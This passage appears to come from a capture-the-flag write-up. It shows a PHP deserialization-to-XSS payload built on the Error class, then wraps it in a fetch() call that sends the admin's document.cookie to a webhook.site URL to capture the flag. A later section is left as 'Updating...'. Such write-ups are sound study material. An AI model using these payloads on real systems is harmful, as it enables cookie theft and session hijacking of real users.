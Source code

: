 ![image](https://hackmd.io/_uploads/SJ-zfwASll.png)

So let start exploiting by using our payload as Error. This sets an undeclared property on the Error class. and bumphh

```
O:5:"Error":1:{s:25:"<script>alert(1)</script>";N;}
```

![image](https://hackmd.io/_uploads/ryyw4U6Bxx.png)

Let’s wrap the payload to capture the flag from the admin’s cookie:

```
O:5:"Error":1:{s:109:"<script>fetch(%27https://webhook.site/12909c1d-2e94-4955-bd76-bd7640e3c0ec/?%27.concat(document.cookie))</script>";N;}
```

![image](https://hackmd.io/_uploads/SksFQDArge.png)

## r3note

Updating...
